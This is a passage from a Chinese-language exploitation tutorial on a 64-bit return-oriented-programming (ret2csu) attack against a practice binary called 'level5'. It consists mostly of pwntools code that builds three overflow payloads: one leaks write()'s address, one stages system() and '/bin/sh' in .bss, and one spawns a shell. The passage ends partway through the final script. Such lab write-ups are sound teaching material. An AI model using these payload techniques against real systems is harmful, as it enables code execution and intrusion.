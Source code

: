 #!bash
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)
当我们exp在收到write()在内存中的地址后，就可以计算出system()在内存中的地址了。接着我们构造payload2，利用read()将system()的地址以及“/bin/sh”读入到.bss段内存中。

#!bash
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
最后我们构造payload3,调用system()函数执行“/bin/sh”。注意，system()的地址保存在了.bss段首地址上，“/bin/sh”的地址保存在了.bss段首地址+8字节上。

#!bash
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)
最终exp如下：

#!python
#!/usr/bin/env python
from pwn import *

elf = ELF('level5')
libc = ELF('libc.so.6')

p = process('./level5')
#p = remote('127.0.0.1',10001)

got_write = elf.got['write']
print "got_write: " + hex(got_write)
got_read = elf.got['read']
print "got_read: " + hex(got_read)

main = 0x400564

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)
